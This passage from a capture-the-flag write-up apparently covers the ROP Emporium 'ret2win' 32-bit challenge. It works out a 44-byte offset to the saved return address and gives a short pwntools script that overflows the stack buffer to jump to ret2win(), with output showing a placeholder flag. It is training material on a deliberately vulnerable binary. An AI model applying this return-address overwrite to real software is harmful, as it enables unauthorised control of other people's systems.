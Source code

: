 We can see that if we increment the `ebp` by 4, it will point to the saved return address.

Therefore the distance between the buffer and the saved return address is `offset+4` which is equal to 44.

### Exploit requirements

We have all the information we need to create an exploit.
	- [x] Address of `ret2win()`: `0x0804862c`
	- [x] Distance between the buffer and return address: `44`

### Exploit

```python title="exploit32.py"
from pwn import *

padding = b"a"*44
ret2win_addr = p32(0x0804862c)

payload = padding + ret2win_addr

p = process('./ret2win32')
p.sendline(payload) 
p.interactive()
```

Let's run the exploit.

```
$ python exploit32.py
[x] Starting local process './ret2win32'
[+] Starting local process './ret2win32': pid 35136
[*] Switching to interactive mode
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```
